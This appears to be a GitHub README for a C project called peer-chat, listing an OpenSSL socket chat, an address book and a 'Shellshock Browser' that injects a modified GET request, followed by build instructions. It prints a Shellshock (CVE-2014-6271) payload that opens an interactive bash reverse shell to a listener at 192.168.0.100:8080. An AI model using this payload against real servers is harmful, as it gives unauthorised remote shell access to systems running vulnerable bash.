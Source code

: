 # peer-chat
* Server and Client OpenSSL Peer Socket Chat (Windows/Linux)

    most Bug free
    
* Addressbook functionality (Windows/Linux)

    Entry has Bugs
    
* http/https Shellshock Browser (Windows/Linux)

    most Bug free
    
    A Webbrowser that has a modyfied GET Request. It supports HTTP and HTTPS Connections.
    
    **[A useful Link](http://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/#gref)**
    
    The Shellshock it self: "env x='() { :;}; ' $(command -v bash) -i >& /dev/tcp/192.168.0.100/8080 0>&1"


# building

* On Windows: use DevC++ (latest) WIN32/WIN64 Compiler

with linker options:

-mwindows
-lssl
-lcrypto
-leay32 
-lwsock32
-lws2_32 
-lpthread
-s

Code profiling -std=ISO C99

* On Linux:

# make
# sudo make install
# sudo make uninstall
# make clean
# make version



**[Tools](tools/Readme.md)**
